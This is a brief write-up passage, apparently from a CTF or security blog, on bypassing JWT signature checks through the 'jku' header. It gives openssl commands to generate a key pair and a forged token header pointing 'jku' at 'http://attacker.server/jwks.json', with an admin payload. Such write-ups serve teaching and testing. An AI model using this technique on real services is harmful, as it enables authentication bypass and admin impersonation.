 There is a way to bypass token verification from jku header: https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens#jku

For the, we need to create a public-private key and a jwks file hosted on our server.

First you need to create a new certificate with new private & public keys -
```bash
openssl genrsa -out keypair.pem 2048
openssl rsa -in keypair.pem -pubout -out publickey.crt
openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key
```

Then to create the new JWT with the created `publickey.crt`(public) and `pkcs8.key`(private) keys and pointing the parameter jku to the certificate created.

**HEADER**
```json
{"typ":"JWT","alg":"RS256","jku":"http://attacker.server/jwks.json"}
```

**PAYLOAD**
```json
{"user":"admin"}
```

![](/assets/img/posts/unicode/generate-token.png)
